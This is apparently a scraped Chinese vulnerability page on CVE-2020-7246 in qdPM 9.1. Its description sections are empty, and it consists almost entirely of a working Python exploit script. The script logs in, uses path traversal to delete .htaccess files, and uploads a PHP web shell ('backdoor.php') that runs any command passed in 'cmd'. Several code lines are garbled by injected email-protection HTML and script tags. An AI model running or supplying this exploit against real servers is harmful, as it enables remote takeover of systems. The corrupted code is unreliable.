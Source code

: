 （CVE-2020-7246）QdPM \<9.1 远程代码执行漏洞
============================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

**python CVE-2020-7246.py -url https://www.0-sec.org/ -u 用户名 -p密码**

    # Exploit Title: qdPM 9.1 - Remote Code Execution
    # Google Dork: intitle:qdPM 9.1. Copyright © 2020 qdpm.net
    # Date: 2020-01-22
    # Exploit Author: Rishal Dwivedi (Loginsoft)
    # Vendor Homepage: http://qdpm.net/
    # Software Link: http://qdpm.net/download-qdpm-free-project-management
    # Version: <=1.9.1
    # Tested on: Windows 10 (Python 2.7)
    # CVE : CVE-2020-7246
    # Exploit written in Python 2.7
    # Tested Environment - Windows 10
    # Path Traversal + Remote Code Execution

    # Command - qdpm-exploit.py -url http://localhost/ -u user@localhost.com -p password
    # -*- coding: utf-8 -*-
    #!/usr/bin/python

    import requests
    from lxml import html
    from argparse import ArgumentParser

    session_requests = requests.session()

    def multifrm(
        userid,
        username,
        csrftoken_,
        EMAIL,
        HOSTNAME,
        uservar,
        ):
        request_1 = {
            'sf_method': (None, 'put'),
            'users[id]': (None, userid[-1]),
            'users[photo_preview]': (None, uservar),
            'users[_csrf_token]': (None, csrftoken_[-1]),
            'users[name]': (None, username[-1]),
            'users[new_password]': (None, ''),
            'users[email]': (None, EMAIL),
            'extra_fields[9]': (None, ''),
            'users[remove_photo]': (None, '1'),
            }
        return request_1


    def req(
        userid,
        username,
        csrftoken_,
        EMAIL,
        HOSTNAME,
        ):
        request_1 = multifrm(
            userid,
            username,
            csrftoken_,
            EMAIL,
            HOSTNAME,
            '.htaccess',
            )
        new = session_requests.post(HOSTNAME + 'index.php/myAccount/update'
                                    , files=request_1)
        request_2 = multifrm(
            userid,
            username,
            csrftoken_,
            EMAIL,
            HOSTNAME,
            '../.htaccess',
            )
        new1 = session_requests.post(HOSTNAME + 'index.php/myAccount/update'
                                     , files=request_2)
        request_3 = {
            'sf_method': (None, 'put'),
            'users[id]': (None, userid[-1]),
            'users[photo_preview]': (None, ''),
            'users[_csrf_token]': (None, csrftoken_[-1]),
            'users[name]': (None, username[-1]),
            'users[new_password]': (None, ''),
            'users[email]': (None, EMAIL),
            'extra_fields[9]': (None, ''),
            'users[photo]': ('backdoor.php',
                             '<?php if(isset($_REQUEST[\'cmd\'])){ echo "<pre>"; $cmd = ($_REQUEST[\'cmd\']); system($cmd); echo "</pre>"; die; }?>'
                             , 'application/octet-stream'),
            }
        upload_req = session_requests.post(HOSTNAME
                + 'index.php/myAccount/update', files=request_3)


    def main(HOSTNAME, EMAIL, PASSWORD):
        result = session_requests.get(HOSTNAME + '/index.php/login')
        login_tree = html.fromstring(result.text)
        authenticity_token =             list(set(login_tree.xpath("//input[@name='login[_csrf_token]']<a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="d4fb94a2b5b8a1b1">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script>"
                 )))[0]
        payload = {'login[email]': EMAIL, 'login[password]': PASSWORD,
                   'login[_csrf_token]': authenticity_token}
        result = session_requests.post(HOSTNAME + '/index.php/login',
                                       data=payload,
                                       headers=dict(referer=HOSTNAME
                                       + '/index.php/login'))
        account_page = session_requests.get(HOSTNAME + 'index.php/myAccount'
                )
        account_tree = html.fromstring(account_page.content)
        userid = account_tree.xpath("//input[@name='users[id]']<a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="456a053324293020">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script>")
        username = account_tree.xpath("//input[@name='users[name]']<a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="e3cca395828f9686">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script>")
        csrftoken_ =             account_tree.xpath("//input[@name='users[_csrf_token]']<a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="e9c6a99f88859c8c">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script>")
        req(userid, username, csrftoken_, EMAIL, HOSTNAME)
        get_file = session_requests.get(HOSTNAME + 'index.php/myAccount')
        final_tree = html.fromstring(get_file.content)
        backdoor =             final_tree.xpath("//input[@name='users[photo_preview]']<a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="bc93fccaddd0c9d9">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script>")
        print 'Backdoor uploaded at - > ' + HOSTNAME + '/uploads/users/'             + backdoor[-1] + '?cmd=whoami'


    if __name__ == '__main__':
        parser =             ArgumentParser(description='qdmp - Path traversal + RCE Exploit'
                           )
        parser.add_argument('-url', '--host', dest='hostname',
                            help='Project URL')
        parser.add_argument('-u', '--email', dest='email',
                            help='User email (Any privilege account)')
        parser.add_argument('-p', '--password', dest='password',
                            help='User password')
        args = parser.parse_args()

        main(args.hostname, args.email, args.password)

